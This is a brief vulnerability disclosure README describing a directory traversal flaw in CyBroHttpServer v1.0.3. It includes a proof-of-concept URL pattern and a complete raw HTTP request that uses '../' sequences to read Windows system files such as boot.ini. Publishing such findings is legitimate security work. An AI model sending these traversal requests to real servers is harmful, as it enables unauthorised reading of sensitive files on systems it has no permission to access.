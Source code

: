 # CyBroHttpServer-v1.0.3-Directory-Traversal
Directory Traversal in CyBroHttpServer v1.0.3 allows an attacker to read sensitive informations.

# PoC
To exploit vulnerability, someone could use 'http://[host]/../../../../' request to get some informations from the target. 
  For example: http://[host]/../../../../Windows/win.ini'


```
GET /../../../../Windows/boot.ini HTTP/1.1
Host: 192.168.43.102:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

![alt tag](https://www.emreovunc.com/blog/en/CyBroHttpServer-v.1.0.3-Directory-Traversal-1.png)

![alt tag](https://www.emreovunc.com/blog/en/CyBroHttpServer-v.1.0.3-Directory-Traversal-2.png)
